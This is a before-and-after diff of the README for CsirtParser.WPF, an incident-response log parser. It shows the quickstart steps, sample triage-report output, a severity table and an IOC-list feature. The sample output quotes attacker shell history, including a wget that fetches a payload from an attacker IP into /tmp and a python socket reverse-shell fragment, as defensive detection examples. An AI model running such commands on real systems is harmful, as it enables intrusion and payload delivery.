

Before and after one commit to JuggeM/CsirtParser.WPF, a Markdown page: README.md, the part around one of its changes. Shown at 94% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -73,46 +83,58 @@ CaseFolder\
 
 ## Quickstart
 
-1. Open CsirtParser
-2. On the **Case Setup** tab, set the case name, analyst name, and browse to your case folder
-3. On the **Parsers** tab, toggle which parsers to run (all enabled by default)
-4. On the **Detection** tab, adjust brute-force thresholds and keyword lists if needed
-5. Click **Run** — output appears in `Processed\` and the log pane shows progress
-6. Open `QuickWins.rtf` in your case folder to start triage
+1. **Case setup**: set the case name and analyst, and browse to the case folder. Output goes to `Processed\` by default.
+2. **Parsers**: choose which parsers to run (all are on by default).
+3. **Detection** and **Body file**: adjust thresholds, keywords and whitelists if needed.
+4. **IOCs** (optional): paste known indicators from the ticket or threat intel.
+5. **Run parser**. The Output panel shows progress.
+6. Start triage in each host's `QuickWins.rtf`, then `Processed\CaseSummary.txt`.
+7. **Case report**: review the likelihoods, edit the bottom line, and export.
 
 ---
 
 ## QuickWins report
 
-The report is structured for fast triage:
+Each host's report opens with the answer, then the detail per source:
 
 ```
-########## Timeline Coverage ##########
-First Log Entry: 2024-11-01 08:12:04 UTC
-Last Log Entry:  2024-11-14 03:04:11 UTC
+########## CASE IOC HITS (analyst IOC list, iocs.txt) ##########
+  9 of 17 case IOC(s) seen on this host — treat as CRITICAL until explained.
+  [CRITICAL] IP   203.0.113.45   45 hit(s)  2026-11-01 09:10:03 → 09:24:00 UTC  in AUTH, BASH, CRONTAB, WEB
 
-########## [GLOBAL] Summary ##########
-[AUTH]    Files: 4  |  First: ...  |  Last: ...  |  Suspicious: 12
-  >> [BRUTEFORCE] 185.220.101.47 — 847 failed attempts
+########## HOST ##########
+  Host: web01   IP: 192.0.2.21 (eth0)   Timezone: host UTC+01:00, all times shown in UTC
 
-[BASH]    Files: 3  |  Suspicious: 9
-  >> [HIGH] user=root: wget -O /tmp/.x http://185.220.101.47/elf64
+########## KEY FINDINGS (critical/high, all sources) ##########
+  CRITICAL 2026-11-01 09:15:30  [WEB] Webshell command from 203.0.113.45: 2 request(s), served (status 200 x2)
+  CRITICAL 2026-11-01 09:21:40  [AUTH] Brute force succeeded: root logged in from 203.0.113.45 after 4 failed attempt(s)
+  HIGH     2026-11-01 09:22:11  [AUTH] Account created: support (UID 1002, shell /bin/bash)
 
-########## [AUTH] Suspicious Findings ##########
-  >> [AUTH] [BRUTEFORCE] 185.220.101.47: 847 failed SSH attempts ...
-
-########## [BASH] Suspicious Shell History ##########
-  >> [BASH] [HIGH] [2024-11-14 02:17:43 UTC] user=root: wget -O /tmp/.x ...
-  >> [BASH] [HIGH] [2024-11-14 02:18:04 UTC] user=root: python3 -c 'import socket...'
-  >> [BASH] [LATERAL] [2024-11-14 02:44:37 UTC] user=root SSH→ 10.0.0.12 as deploy
+########## IOCs (indicators seen in findings) ##########
+########## COVERAGE (what was checked) ##########
+########## [AUTH.LOG] — 5 finding(s) across 1 file(s) ##########
+   … one section per source, then PATTERN COUNTS
 ```
 
-Severity levels used throughout:
+| Severity | Meaning |
+|---|---|
+| `CRITICAL` | Attacker activity that succeeded (webshell served, login after brute force, pipe-to-shell). Review first |
+| `HIGH` | Very likely malicious (reverse shell in cron, account created, served SQLi) |
+| `BRUTEFORCE` | IP exceeded the failed-login threshold |
+| `MEDIUM` / `LATERAL` | Context, blocked attacks, SSH to another internal host |
+| `SUSPICIOUS` | Worth a look, not malicious on its own |
 
-| Tag | Meaning |
-|---|---|
-| `[HIGH]` / `[CRITICAL]` | Near-certain attacker activity — review first |
-| `[BRUTEFORCE]` | IP exceeded failed-login threshold |
-| `[SUSPICIOUS]` | Worth reviewing, not automatically malicious |
-| `[LATERAL]` | SSH connection to another internal host |
-| `[MEDIUM]` | Informational — provides context |
+All times are UTC. The host timezone is read from the collection; if it can't be found, QuickWins says so.
+
+---
+
+## Case IOC list
+
+The **IOCs** panel takes indicators as you get them: paste a whole ticket or a list with several values per line.
+
+- Defanged values are fixed automatically (`hxxp`, `[.]`, `(dot)`, `[:]`, `[@]`) and the type is detected: IP, CIDR, domain, URL, email, MD5/SHA1/SHA256 and path. Prefix user names with `user:` and bare file names with `file:`. Text after ` #` is kept as a comment.
+- You can import `.txt` or `.csv` files (for example a MISP export) with **Import file…** or by dragging them onto the box.
+- **Search processed output** searches every collection's normalised CSVs, body file and live response without parsing again. It also runs automatically after each run. Matching is exact: `1.2.3.4` does not hit `11.2.3.45`, a domain also matches its subdomains, and a CIDR matches every address in it.
+- Hits appear at the top of QuickWins.txt, in `IocHits.tsv`, and as a host × IOC table in CaseSummary.txt.
+- **Load discovered** adds indicators the parser found in findings but that are not in your list yet (`iocs_discovered.txt`). Review them, then search again.
+
````
Also changed, not shown: other parts of README.md (+107 -73 lines), docs/case-report.png (added), docs/case-setup.png (added), docs/iocs.png (added), docs/parsers.png (added).
